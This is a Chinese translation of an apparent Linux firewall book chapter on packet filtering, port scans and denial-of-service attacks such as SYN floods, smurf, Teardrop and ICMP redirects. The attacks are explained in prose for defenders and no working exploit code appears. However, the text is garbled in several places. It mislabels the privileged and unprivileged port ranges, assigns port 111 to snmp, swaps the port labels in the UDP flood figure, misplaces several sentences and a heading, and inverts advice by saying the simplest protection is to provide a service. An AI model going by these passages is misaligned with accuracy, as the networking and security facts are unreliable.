基于目标的传入数据包不是一个重大问题。在正常运行期间，您的网络接口卡会忽略不是发给它的常规数据包。例外是广播数据包，它们被广播到网络上的所有主机。

地址 `255.255.255.255` 是通用广播目标。它指代直接物理网络段上的所有主机，称为有限广播。广播地址可以更明确地定义为给定 IP 地址子集中的最高地址。例如，如果您的 ISP 网络是 `.0`，子网掩码为 24 位，而您的 IP 地址是 `192.168.10.30`，您会看到地址为 `192.168.10.255` 的广播数据包。另一方面，如果您总共有四个地址，网络中有两个主机和广播。例如，考虑网络 `10.3.7.4/30`。在这个网络中，`10.3.7.4` 是网络地址，两个主机将是 `10.3.7.5` 和 `10.3.7.6`，广播将是 `10.3.7.7`。这种 `/30` 配置类型通常用于路由器之间，尽管实际地址可能有所不同。知道给定子网的广播地址是什么的唯一方法是知道该子网内的一个 IP 地址和子网掩码。这类广播指向正确的子网，并交付给网络上的所有主机。

来自 `0.0.0.0` 的到目标的广播类似于前文“源地址欺骗与非法地址”一节中提到的来自广播源地址的点对点数据包。在这里，广播数据包指向源地址 `0.0.0.0`，而不是目标地址 `255.255.255.255`。在这种情况下，关于数据包的意图几乎没有疑问。这是试图识别您的系统为 Linux 机器的尝试。出于历史原因，源自 BSD Unix 的网络代码在响应 `0.0.0.0` 被用作广播时，会返回 `ICMP` 类型 3 错误消息。

## 5.4 过滤入站数据包

目的地址。其他操作系统会静默丢弃数据包。因此，这是丢弃与拒绝数据包存在区别的一个很好的例子。在这种情况下，错误消息本身正是探测所寻找的内容。

### 5.4.3 远程源过滤

来自远程客户端发往您本地服务器的入站请求和连接，其源端口通常位于特权端口范围内。如果您托管了一个 Web 服务器，所有发往该 Web 服务器的入站连接的源端口应在 `1024` 到 `65,535` 之间。（虽然服务器端口用于标识服务是设计意图，但并非绝对保证。您无法完全确定在预期端口上运行的就是您期望的服务器。）

来自您连接的远程服务器的入站响应和连接，其源端口将被设置为该特定服务的端口。如果您连接到一个远程网站，来自远程服务器的所有入站消息的源端口将设置为 `80`（或本地客户端指定的任何端口），即 `http` 服务的端口号。

### 5.4.4 本地目的端口过滤

入站数据包中的目的端口标识了数据包意图访问的您计算机上的程序或服务。对于源端口而言，远程客户端发往您服务的入站请求通常遵循相同的模式，而远程服务器发往本地客户端的入站响应则遵循不同的模式。

来自远程客户端发往您本地服务器的入站请求和连接，会将目的端口设置为您分配给特定服务的端口号。例如，发往您本地 Web 服务器的入站数据包的目的端口通常设置为 `80`，即 `http` 服务的端口号。

来自您连接的远程服务器的入站响应，其目的端口位于特权端口范围内。如果您连接到一个远程网站，来自远程服务器的所有入站消息的目的端口将在 `1024` 到 `65,535` 之间。

### 5.4.5 入站 TCP 连接状态过滤

入站数据包接受规则利用了与 `TCP` 连接相关的连接状态标志。所有 `TCP` 连接都遵循同一组连接状态。由于连接建立过程中的三次握手，这些状态在客户端和服务器之间有所不同。因此，防火墙可以区分来自远程客户端的入站流量和来自远程服务器的入站流量。

来自远程客户端的入站 `TCP` 数据包在作为三次握手连接建立过程的一部分接收到的第一个数据包中会设置 `SYN` 标志。第一个连接会设置 `SYN` 标志，但不设置 `ACK` 标志。

来自远程服务器的入站数据包始终是对本地客户端程序发起的初始请求的响应。从远程服务器接收到的每个 `TCP` 数据包都会设置 `ACK` 标志。本地客户端的防火墙规则要求所有来自远程服务器的入站数据包必须设置 `ACK` 标志。服务器通常不会尝试发起与客户端程序的连接。

### 5.4.6 探测与扫描

探测（Probe）是尝试连接或从单个服务端口获取响应。扫描（Scan）是对一组不同服务端口的一系列探测。扫描通常是自动化的。

不幸的是，探测和扫描如今很少是无害的。它们很可能属于初步的信息收集阶段，旨在在发动攻击前寻找有趣的安全漏洞。特别是在 1998 年，我们观察到全球范围内的扫描呈指数级增长。自动化扫描工具非常普及，黑客团体协调行动也屡见不鲜。互联网上许多主机安全状况（或缺乏安全性）以及蠕虫、病毒和僵尸计算机的泛滥，使得扫描成为互联网上的常态问题。

#### 通用端口扫描

通用端口扫描是对大量服务端口（甚至整个范围）进行的无差别探测（参见图 5.6）。随着更精密、更具针对性的隐身工具的出现，这些扫描变得越来越少——或者至少变得不那么明显。



图 5.6 通用端口扫描。

#### 针对性端口扫描

针对性端口扫描旨在寻找特定漏洞（参见图 5.7）。较新的、更精密的工具试图识别硬件、操作系统和软件版本。这些工具旨在识别可能易受特定漏洞影响的目标。



图 5.7 针对性端口扫描。

#### 常见服务端口目标

常见目标既会被单独探测，也会被扫描。攻击者可能正在寻找特定漏洞，例如不安全的邮件服务器、未修补的 Web 服务器或开放的 `RPC portmap` 守护进程。更全面的端口列表可在 `http://www.iana.org/assignments/port-numbers` 找到。这里仅提及少数常见端口，以提供概念参考：

- 来自保留端口 `0` 的入站数据包总是伪造的。该端口并非合法使用。
- 对 `TCP` 端口 `0` 到 `5` 的探测是 `sscan` 程序的典型特征。
- `telnet (23/tcp)`、`smtp (25/tcp)`、`dns (53/tcp)`、`pop-3 (110/tcp)`、`snmp (111/udp/tcp)`、`imap (143/tcp)`、`snmp (161/udp)`、`route (520/udp)` 和 `mount (635/udp)` 是常见的目标端口。它们代表了系统中一些潜在最脆弱的入口，原因可能是固有的、常见的配置错误，或软件中已知的缺陷。由于这些服务非常普遍，它们很好地说明了为什么您不希望向外部世界提供这些服务，或者需要极其谨慎地在受控访问下提供这些服务。
- `NetBIOS (137-139/tcp/udp)`、`Windows 2000/2003` 上的 `SMB (445/tcp)`、`Netbus (12345/tcp)` 以及旧版 `Back Orifice (31337/udp)` 的探测非常著名。它们对 Linux 系统不构成威胁。在这种情况下，目标是 Windows 系统，这类扫描非常普遍，原因并非因为 Windows 作为互联网服务器的流行程度（Linux/Apache 是最受欢迎的 Web 服务器），而是因为 Microsoft Windows 相对不安全的特性。

#### 历史上危险的端口

关于历史上危险端口的更多信息，请参见 `http://www.cert.org` 上提供的“面向防火墙系统的数据包过滤”论文。

#### 隐身扫描

隐身端口顾名思义，是不旨在被检测到的。它们基于 `TCP` 协议栈如何响应意外数据包，或具有非法状态标志组合的数据包。例如，一个设置了 `ACK` 标志但没有相关连接的数据包。如果该 `ACK` 发送到一个已附着监听服务器的端口，`TCP` 协议栈将找不到相关连接并返回 `TCP RST` 消息，告知发送方重置连接。如果该 `ACK` 发送到一个未使用的端口，系统将返回 `TCP RST` 消息作为错误指示，或者防火墙可能默认返回 `ICMP` 错误消息。

问题进一步复杂化的原因是，一些防火墙仅测试 `SYN` 标志或 `ACK` 标志。如果两者均未设置，或者数据包包含某些标志组合，防火墙实现可能会将数据包传递给 `TCP` 代码。根据 `TCP` 状态标志组合和接收数据包的操作系统不同，系统将响应 `RST` 或保持沉默。这种机制可用于帮助识别目标系统运行的操作系统。在这些情况下，接收系统不太可能记录该事件。

以这种方式诱导目标主机生成 `RST` 数据包，也可用于映射网络，确定网络上监听系统的 IP 地址。如果目标系统不是服务器，且其防火墙被设置为静默丢弃不需要的数据包，这种技术尤其有帮助。

### 避免恐慌：应对端口扫描


防火墙日志显示了各种失败的连接尝试。探测是在日志中报告的最常见的内容。

经常有人探测您的系统吗？是的，确实如此。您的系统被入侵了吗？没有，并没有被入侵。嗯，不一定。防火墙正在执行其任务。这些是被防火墙拒绝的失败连接尝试。

您在什么个人决定上报一次探测？在什么情况下重要到值得花时间去上报？在什么情况下您可以说“够了”并继续生活，或者是否应该每次写 abuse 邮件？没有“正确”的答案。您的反应是个人的判断，取决于您可用的资源、您站点信息的敏感度以及互联网对您站点的重要性。对于明显的探测和扫描，没有明确的答案。这取决于您个人如何定义严重探测的人格和舒适程度，以及您的社会责任感。

鉴于此，以下是一些可行的指导原则。

最常见的攻击是自动化探测、错误、基于互联网历史误识别的攻击、无知、好奇以及行为不良的软件的组合。

您始终可以安全地忽略单独的、孤立的对 `telnet`、`ssh`、`ftp`、`finger` 或您未提供的任何常见服务其他端口的单次连接尝试。探测和扫描是互联网上生活的现实，频率很高，通常不构成风险。它们有点像挨家挨户推销员、商业电话、错误的电话号码和垃圾邮件。一天中没有足够的时间去回应每一个。

另一方面，有些探测更具持续性。您可能决定添加防火墙规则以完全阻止它们，甚至可能阻止其整个 IP 地址。

针对部分已知潜在安全漏洞的扫描，如果发现开放端口，可能是攻击的前兆。范围更广泛的扫描通常是对整个域或子集中的入口进行更广泛的扫描。当前的黑客探测逐个探测这些子集中的端口。

偶尔，您会看到黑客攻击。这毫无疑问是采取行动的时候。写信给他们。上报给他们。重新检查您的安全性。观察他们在做什么。阻止他们的 IP 地址块。

一些系统管理员认真对待每一次发生，因为即使他们的机器是安全的，其他人的机器可能不是。下一个人甚至可能没有能力知道他正在被探测。为了每个人的利益，上报探测是一种具有社会责任感的做法。

您应如何回应端口扫描？如果您写信给他们的 `postmaster`、`上游服务提供商 NOC` 或网络地址块协调员，请尽量礼貌。给它们善意推测的机会。反应过度往往比恰当反应更常见。对您来说看起来像严重黑客尝试的事情，往往只是一个好奇的孩子在玩耍新程序。对滥用者、`root` 或 `postmaster` 说几句礼貌的话通常就能解决问题。比起惩罚他们的网络账户，更需要教育更多人了解网络礼仪（Netiquette）。

## 5.4.7 拒绝服务攻击

已撤回。他们可能完全是无辜的。同样频繁发生的情况是，该人员的系统被入侵，而他们本人对正在发生的事情一无所知。他们会感激获得这些信息。

然而，探测（Probes）并非你唯一会看到的恶意流量。虽然探测本身是无害的，但拒绝服务（DoS）攻击并非如此。

DoS 攻击基于向你的系统洪泛数据包以中断或严重降低你的互联网连接、使本地服务器忙到无法响应合法请求，或者在最坏的情况下彻底崩溃系统的理念。最常见的两种结果是系统忙得无法执行任何任务以及关键资源被占用。

你无法完全防护 DoS 攻击。DoS 攻击可以呈现攻击者想象力所允许的任何形式。任何导致你的系统产生响应的行为、任何导致你的系统分配资源（包括记录攻击日志）的行为、任何诱导远程站点停止与你通信的行为——所有这些都可用于 DoS 攻击。

> **拒绝服务攻击**
>
> 如需有关 DoS 攻击的更多信息，请参阅位于 `http://www.cert.org` 的“Denial of Service”论文。

这些攻击通常涉及几种经典模式中的一种，包括 TCP SYN 洪泛、Ping 洪泛、UDP 洪泛、分片炸弹、缓冲区溢出和 ICMP 路由重定向炸弹。

### TCP SYN 洪泛

SYN 洪泛攻击会消耗系统资源，直到无法再接受任何传入的 TCP 连接（见图 5.8）。该攻击利用了建立连接期间基本的 TCP 三次握手协议，并结合了 IP 源地址欺骗。


图 5.8 一次 TCP SYN 洪泛。

攻击者将其源地址伪装为私有地址，并向你基于 TCP 的服务之一发起连接。作为一个试图打开 TCP 连接的客户端出现，攻击者向你发送一个人造生成的 SYN 消息。你的机器通过发送确认 SYN-ACK 进行响应。然而，在这种情况下，你回复的地址并不是攻击者的地址。事实上，由于该地址是私有的，那里没有人可以响应。被伪装的宿主不会返回 RST 消息来终止这个半开连接。

TCP 连接建立的最后一个阶段，即接收对 ACK 的响应，永远不会发生。有限的网络连接资源被消耗。连接保持在半开启状态，直到连接尝试超时。攻击者以快于 TCP 超时的速度，用连接请求淹没你的端口。资源被耗尽。如果这种情况持续下去，所有资源都将被占用，无法再接受新的传入连接请求。这不仅适用于被探测的服务，也适用于所有新的连接。

Linux 用户有一些可用的辅助手段。第一个是之前描述的源地址过滤。这可以过滤掉最常用被伪装的源地址，但没有保证被伪装的地址落在你预期并针对其进行过滤的类别中。

第二个是启用内核的 SYN 连接模块，这是针对由 SYN 洪泛引起的资源饥饿的一种特定缓释剂。当连接队列开始变满时，系统开始用 cookies（饼干/标记）而非 SYN-ACK 来响应 SYN 请求，并释放 cookie 槽。队列永远不会完全变满。客户端必须在短时期内响应，服务主机才会用预期的 SYN-ACK 进行响应。Cookie 是一个基于 SYN 中的原始序列号、源和目的地址及端口、以及一个秘密值生成的序列号。如果对 cookie 的响应与哈希算法的结果匹配，服务器可以合理确信该 SYN 是有效的。

取决于特定的版本，你可能需要或不需要使用命令 `echo 1 > /proc/sys/net/ipv4/tcp_syncookies` 在内核中启用 SYN cookie 保护。某些发行版和内核版本要求你使用 `make config`、`make menuconfig` 或 `make xconfig` 显式配置内核，然后重新编译并安装新的内核。

> **SYN 洪泛与 IP 欺骗**
>
> 如需有关 SYN 洪泛和 IP 欺骗的更多信息，请参阅位于 `http://www.cert.org` 的 `CERT_Advisory_CA-96.21`，“TCP SYN 洪泛和 IP 欺骗攻击”。

### Ping 洪泛

任何诱导你的机器做出响应的消息都可以通过迫使系统响应来降低你的网络连接。由 ping 发送的 ICMP 回显请求消息是一个常见的罪魁祸首。一种名为 `smurf` 的攻击及其变体，迫使系统消耗资源来处理回显回复。实现这一目标的一种方法是伪装受害者的源地址，并向整个主机网络广播回显请求。单个被伪装的请求消息可能导致数百或数千个回复被发送给受害者。实现类似结果的另一种方法是在跨互联网的受感染主机上安装木马，并设置它们在同一时间向同一主机发送回显请求。最后，简单的 ping 洪泛，即攻击者发送许多回显请求并淹没数据连接，是另一种 DoS 方法，尽管它正在变得不那么常见。典型的 ping 洪泛如图 5.9 所示。



图 5.9 一次 Ping 洪泛。

### 死亡之 Ping

一个较老的被称为“死亡之 Ping”的漏洞利用涉及发送非常大的 ping 数据包。易受攻击的系统因此可能崩溃。Linux 不受此漏洞利用的影响，其他当前的 UNIX 操作系统也是如此。如果你的防火墙保护的是较旧的系统和个人电脑，那些系统可能易受攻击。

“死亡之 Ping”漏洞利用展示了最简单的协议和消息交互如何被富有创造力的黑客所利用。并非所有攻击都是试图入侵你的计算机。有些仅仅是破坏性的。在这种情况下，目标是使机器崩溃。（系统崩溃也可能是你需要检查系统中已安装的木马程序的指标。你可能被诱导安装了木马程序，而该程序本身可能需要系统重启才能激活）。

Ping 是一个非常实用的基本网络工具。你可能不想禁用 ping。在当今的互联网环境中，保守的建议是禁用传入的 ping 或至少限制你接受回显请求的来源。由于 ping 在 DoS 攻击中的历史参与，许多站点不再响应来自任何来源的外部 ping 请求。这一直被认为是一种过激反应，因为与堆栈中针对应用程序和其他协议的更普遍且危险的威胁相比，通过 ICMP 进行 DoS 的威胁相对较小。

然而，丢弃 ping 请求并不是受害主机的解决方案。无论洪泛的接收者如何对数据包做出反应，系统（或网络）仍可能因检查和丢弃大量请求的过程而被压倒。

### UDP 洪泛

UDP 协议特别适合作为 DoS 工具。与 TCP 不同，UDP 是无状态的。它不包含流量控制机制。没有连接状态标志。不使用数据报序列号。不保留关于下一个预期数据包的信息。基于端口号，并不总是能区分客户端流量和服务器流量。没有状态就无法区分预期的传入响应和意外到达的非请求数据包。相对容易让系统忙于响应没有合法响应的传入 UDP 探测，从而不留下带宽给合法的网络流量。


UDP 服务容易受到此类攻击（与面向连接的 TCP 服务相对），因此许多站点禁用了所有非绝对必要的 UDP 端口。如前所述，几乎所有常见的互联网服务都是基于 TCP 的。我们在第 7 章“构建和安装独立防火墙”中构建的防火墙，谨慎地将 UDP 限制在仅用于提供必要 UDP 服务的远程主机。

经典的 UDP 洪泛攻击涉及两台机器，其工作方式类似于 smurf ping 洪泛（见图 5.10）。攻击者从 UDP echo 端口发出的单个被伪装的数据包，指向主机的 UDP chargen 端口，可能导致网络流量的无限循环。echo 和 chargen 服务是网络测试服务。chargen 生成 ASCII 字符串，echo 返回发送到端口的数据。

> **UDP 端口拒绝服务攻击**
>
> 如需关于使用这些 UDP 服务的 DoS 漏洞利用的更完整描述，请参阅位于 `http://www.cert.org` 的 CERT 通告 Q-96.01，“UDP 端口拒绝服务攻击”。

源地址：中介者

目的地址：受害者

源端口：UDP 7 - chargen


源地址：受害者

目的地址：中介者

源端口：UDP 7 - echo

目的端口：UDP 19 - chargen

图 5.10 UDP 泛洪攻击。

## 分片炸弹（Fragmentation Bombs）

不同的底层网络技术（例如以太网、ATM 和令牌环）对第 2 层帧的大小定义了不同的限制。当数据包从源机器沿路径经过多个路由器传递到目的机器时，网络网关路由器可能需要将数据包切分为更小的片段，称为**分片**，然后再将其传递给下一个网络。在合法的分片中，第一个分片包含 UDP 或 TCP 传输首部中通常的源端口和目的端口号。后续的分片则不包含这些端口号。

例如，虽然理论上的最大数据包长度是 65,535 字节，但最大以太网帧大小（最大传输单元，或 MTU）为 1,500 字节。

当数据包被分片时，中间路由器不会重新组装数据包。数据包要么在目的主机处，要么由其相邻路由器重新组装。

因为中间分片最终比发送较小的、未分片的数据包成本更高，所以当前系统通常在连接开始时对目标主机执行 MTU 发现。这是通过发送一个在 IP 首部选项中设置了**不分片（Don't Fragment）**选项的数据包来实现的（这是 IP 选项字段的唯一合法用途）。如果中间路由器必须对数据包进行分片，它会丢弃该数据包并返回一个 ICMP 3 错误，即**需要分片（fragmentation-required）**。

一种分片攻击涉及人为制造极小的数据包。单字节数据包会导致某些操作系统崩溃。当前的操作系统通常会检测这种情况。

小分片的另一种用途是构造初始分片，使得 UDP 或 TCP 的源端口和目的端口包含在第二个分片中。（所有网络的 MTU 大小都足以容纳标准的 40 字节 IP 和传输首部。）包过滤防火墙通常允许这些分片通过，因为它们过滤的信息不存在于其中。这种攻击形式有助于让那些原本会被阻止的数据包穿过防火墙。

前面提到的死亡之 Ping（Ping of Death）就是一个利用分片来携带非法 ICMP 消息的例子。当 Ping 请求被重建时，整个数据包的大小超过了 65,535 字节，导致某些系统崩溃。

一个分片利用的经典例子是 Teardrop 攻击。该方法可用于绕过防火墙或使系统崩溃。第一个分片被构造为指向一个允许的服务（许多防火墙不会检查第一个数据包之后的分片）。如果该分片被允许，后续的分片将被传递并由目标主机重新组装。如果第一个数据包被丢弃，后续的数据包将穿过防火墙，而终端主机必须重建并最终丢弃不完整的包。

后续分片中的数据偏移字段可以被修改，以覆盖第一个分片中的包信息，从而访问一个不允许的服务。偏移量也可以被修改，使得重新组装时的偏移量变为负数。由于字节复制例程通常使用无符号数，负值会被视为一个大的正数；由此产生的复制会破坏内核内存，导致系统崩溃。

防火墙机器和为其他本地主机执行 NAT 的机器应配置为在将数据包传输给本地目标之前重新组装数据包。`iptables` 的某些功能要求系统在将数据包转发到目的主机之前重新组装数据包，并且重新组装是自动完成的。

## 缓冲区溢出（Buffer Overflows）

过滤防火墙无法保护系统免受缓冲区溢出利用的攻击。这些利用方式主要分为两大类。第一类操作相对简单，通过覆盖系统或服务器的数据空间或运行时堆栈来使其崩溃。第二类需要技术专业知识以及对被攻击的硬件和软件服务器版本的了解。溢出的目的是覆盖程序的运行时堆栈，使得返回堆栈包含一个程序及其跳转指令。该程序通常会启动一个具有 root 权限的 shell。

CGI 脚本在许多 Web 应用程序中被广泛使用，除非采取预防措施，否则历史上一直存在漏洞。当前服务器中的许多漏洞都是缓冲区溢出的结果。安装并持续更新所有最新的补丁和软件修订版本至关重要。

关于使用 CGI 脚本进行拒绝服务（DoS）利用的描述，请参阅位于 `http://www.cert.org` 的“如何在 CGI 脚本中移除用户提供的数据中的字符”，以及位于 `http://www.w3.org` 的“万维网安全常见问题解答（FAQ）”。

## ICMP 重定向炸弹（ICMP Redirect Bombs）

类型为 5 的 ICMP 重定向消息指示目标系统更改其内存中的路由表，以优先选择较短的路由。重定向消息由路由器发送给其相邻主机。其意图是通知主机一条较短的路径可用（即，主机的新路由器位于同一网络上，且新路由器是将数据包路由到下一跳的原始路由器）。

重定向消息几乎每天都会有到达。它们很少来自相邻路由器。对于连接至 ISP 的住宅或商业站点来说，您的相邻路由器生成重定向消息的可能性非常小。

如果您的主机使用静态路由并遵循重定向消息，某人可能会欺骗您的系统，使其认为远程机器是您的本地机器之一或 ISP 的机器之一，甚至欺骗您的系统将所有流量转发到其他远程主机。

## 拒绝服务攻击及其他系统资源（Denial-of-Service Attacks and Other System Resources）

网络连通性并非 DoS 攻击中唯一的关注点。在配置系统时，请记住以下其他领域的示例：

- 如果您的系统被迫向错误日志写入大量消息，或者您的系统被大量大电子邮件副本淹没，您的文件系统可能会溢出。您可能希望配置资源限制，并为快速增长或变化的文件系统设置单独的分区。

## 电子邮件拒绝服务利用（Email Denial-of-Service Exploits）

关于使用电子邮件进行 DoS 利用的描述，请参阅位于 `http://www.cert.org` 的“电子邮件轰炸和垃圾邮件（Email Bombing and Spamming）”。

- 通过网络服务的反复、快速调用，系统内存、进程表槽、CPU 周期和其他资源可能会耗尽。除了为每个单独的服务设置可配置限制、启用 `SYN cookie` 以及拒绝（而非仅拒绝）不受支持服务端口的数据包外，您对此几乎无能为力。

### 5.4.8 源路由数据包（Source-Routed Packets）

源路由数据包使用一种极少使用的 IP 选项，允许发起者定义两台机器之间的路由，而不是让中间路由器确定路径。与 ICMP 重定向一样，此功能可能允许某人欺骗您的系统，使其认为通往本地机器、ISP 机器或其他受信任主机的路径，或者创建中间人攻击所需的数据包流量。

源路由在当前网络中很少有合法用途。某些路由器会忽略此选项。某些防火墙会丢弃包含此选项的数据包。

### 5.5 过滤出站数据包（Filtering Outgoing Packets）

如果您的环境代表一个受信任的环境，过滤出站数据包可能看起来不像过滤入站数据包那么关键。您的系统不会响应防火墙未放行的入站消息。住宅站点通常采用这种方法。然而，对于住宅站点，对称过滤很重要，特别是当防火墙保护 Microsoft Windows 机器时。对于商业站点，出站过滤的重要性是不言而喻的。

如果您的防火墙保护一组 Microsoft Windows 系统的局域网，控制出站流量变得更为重要。最近，数万台受损的 Windows 机器被用于协调的 DoS 攻击。特别出于这个原因，过滤离开您网络的内容非常重要。

过滤出站消息还允许您运行局域网服务而不暴露在互联网中，因为这些数据包不属于互联网。这不仅是一个禁止外部访问局域网服务的问题，也是一个不广播本地系统（如时间服务 `timed`、路由服务或只用于内部使用的 `rwhod` 服务器）的问题。其他令人讨厌的服务（如果您正在运行本地 `dhcpd`、`timed` 或 `syslog` 消息）也可能在广播。

一个相关的来源是一些个人电脑软件，它们有时忽略互联网服务端口协议和保留分配。这相当于在连接互联网的机器上运行专为局域网使用设计的程序。

最后一个原因是保持那些未打算离开局域网但可能有离开可能的本地流量。从安全角度来看，将本地流量保持在本地是一个好主意，这也是节省带宽的一种手段。

### 5.5.1 本地源地址过滤（Local Source Address Filtering）


基于源地址过滤出站数据包很简单。对于一个小型站点或单个连接到互联网计算机，在正常操作期间，源地址就是您计算机的 IP 地址。没有理由允许出站数据包具有其他任何源地址，防火墙应强制执行此规定。


对于个人用户，IP 地址是由 ISP（互联网服务提供商）动态分配的，在地址分配过程中存在一个短暂的异常。这一异常是 `DHCP`（动态主机配置协议）特有的，即大多数主机使用 `0.0.0.0` 作为源地址广播消息。

对于拥有局域网防火墙且机器具有动态分配 IP 地址的用户来说，限制发出数据包必须包含防火墙机器的 IP 地址作为源地址是强制性的。这可以保护你免受几种相当常见的配置错误的侵害，这些错误在远程主机看来表现为源地址欺骗或非法源地址。

如果你的用户或软件不是 100% 可信赖的，确保本地流量仅包含合法的本地地址以避免参与利用地址欺骗的 DoS（拒绝服务）攻击至关重要。

最后一点尤为重要。`RFC 2827`，“网络过滤：击败利用 IP 源欺骗的拒绝服务攻击”（并由 `RFC 3704` 更新），是一份关于此点的现行“最佳实践”文档。理想情况下，每个路由器都应过滤掉明显的非法源地址，并确保离开本地网络的数据包仅包含属于该网络的可路由源地址。

## 5.5.2 远程目标地址过滤

与入站数据包一样，你可能希望允许特定类型的出站数据包仅被寻址到特定的远程网络或单台机器。在这种情况下，防火墙规则将定义特定的 IP 地址或有限的 IP 目标地址范围，这些数据包将被允许访问该范围。

第一类需按目标地址过滤的出站数据包是那些发送给已联系过的远程服务器的数据包。虽然某些数据包（如发往 Web 或 FTP 服务的数据包）可能被预期发往互联网上的任何地方，但其他远程服务仅合法地从你的 ISP 或特别选定的主机提供。仅通过你的 ISP 提供的服务示例包括电子邮件服务（如 `SMTP` 或 `POP`）、`DNS` 服务、`DHCP` IP 地址分配以及 `Usenet` 新闻服务。

第二类需按目标地址过滤的出站数据包是那些发送给正在访问你服务器所提供服务的远程客户端的数据包。同样，虽然某些出站服务连接（如来自你 Web 服务器的响应）可能被预期发往任何地方，但其他本地服务仅面向少数受信任的远程站点或朋友提供。受限本地服务的示例可能包括 `telnet`、`ssh`、基于 `Samba` 的服务以及通过 `portmap` 访问的 `RPC` 服务。不仅防火墙规则会拒绝这些服务的入站连接，规则也不允许这些服务的出站响应发给任何人。

## 5.5.3 本地源端口过滤

明确定义网络上可用于出站连接的源端口有两个目的——一个针对你的客户端程序，另一个针对你的服务器程序。指定出站连接允许的源端口有助于确保你的程序行为正常，并保护他人免受不属于互联网的任何本地网络流量的影响。

来自本地客户端的出站连接几乎总是源自非特权源端口。在防火墙规则中将客户端限制在非特权端口有助于通过确保客户端程序按预期行为来保护他人免受潜在错误的侵害。

来自本地服务器程序的出站数据包始终源自其分配的服务端口，并是对收到的请求的响应。在防火墙层面限制服务器可确保你的服务器程序在协议层面正常工作。更重要的是，它保护了可能正在运行的私有本地网络服务免受外部访问。它还有助于保护远程站点免受本应限于本地系统的网络流量的干扰。

## 5.5.4 远程目标端口过滤

你的本地客户端程序旨在连接到从其分配的服务端口提供服务的网络服务器。从这个角度看，限制客户端仅连接到其关联服务器的服务端口可确保协议正确性。限制客户端连接到特定目标端口也有几个目的。它有助于防止本地私有网络客户端程序无意间尝试访问互联网上的服务器。其次，它大大禁止了出站错误、端口扫描以及其他可能源自你站点的恶意行为。

你的本地服务器程序几乎总是参与源自非特权端口的连接。防火墙规则将服务器的出站流量限制为仅使用非特权目标端口。

## 5.5.5 出站 TCP 连接状态过滤

出站 `TCP` 数据包接受规则可以利用与 `TCP` 连接相关的连接状态标志，就像入站规则一样。所有 `TCP` 连接都遵循同一组连接状态，但客户端和服务器之间的状态有所不同。

来自本地客户端的出站 `TCP` 数据包在三次握手的第一条数据包中会设置 `SYN` 标志。初始连接请求会设置 `SYN` 标志，但不设置 `ACK` 标志。你的本地客户端防火墙规则将允许携带 `SYN` 或 `ACK` 标志设置的出站数据包。

来自本地服务器的出站数据包始终是对远程客户端程序发起的初始连接请求的响应。服务器发送的每个数据包都会设置 `ACK` 标志。你的本地服务器防火墙规则将要求来自服务器的所有出站数据包都设置 `ACK` 标志。

## 5.6 私有与公共网络服务

无意间允许未受邀请的入侵的最简单方法之一就是允许外部访问仅设计用于局域网使用的本地服务。某些服务如果本地提供，绝不应跨越你的局域网与外部互联网之间的边界。这些服务中的一些会打扰你的邻居，提供一些你最好保密的信息，如果它们在局域网外可用，则代表安全漏洞。

一些最早的网络服务，特别是 `r-*` 命令，是为在受信任环境中跨多台实验室机器进行本地共享和便捷访问而设计的。一些较晚的服务旨在用于互联网访问，但它们设计于互联网基本是由学者和研究人员组成的扩展社区的那个时代。互联网当时是一个相对开放、安全的地方。随着互联网发展成为一个包含普通公众访问的全球网络，它演变为一个完全不可信任的环境。

许多网络服务旨在提供关于系统用户帐户的本地信息，正在运行的程序，正在使用的资源，系统状态，网络状态以及通过网络连接的其他机器的类似信息。并不是说某人可以直接利用它们获得对你系统的未授权访问。它们提供了关于你的系统和用户帐户的信息，这些信息对于寻找已知漏洞的人可能有用。它们可能提供用户名、地址、电话号码等信息，这些信息你并不希望轻易向每个询问者公开。

一些更具危险性的网络服务旨在提供对共享文件系统以及设备（如网络打印机或传真机）的局域网访问。

一些服务难以正确配置，另一些则难以确保安全。整本书都致力于配置一些更复杂的 Linux 服务。具体的服务配置超出了本书的范围。

一些服务在家庭或小型办公室环境中没有意义。一些旨在管理大型网络、提供互联网路由服务、提供大型数据库信息服务、支持双向加密和认证等。

### 5.6.1 保护非安全的本地服务

保护自己的最简单方法是提供该服务。但如果你在本地需要这些服务之一怎么办？并非所有服务都能充分地在数据包过滤层面得到保护。多媒体服务（如 `RealAudio` 和即时消息服务）以及基于 `UDP` 的 `RPC` 服务在数据包过滤层面以难以确保安全而闻名。

保护计算机的一种方式是在防火墙上不托管你并不打算公开使用的网络服务。如果服务不可用，远程客户端就没有可连接的对象。让防火墙保持其防火墙的功能。

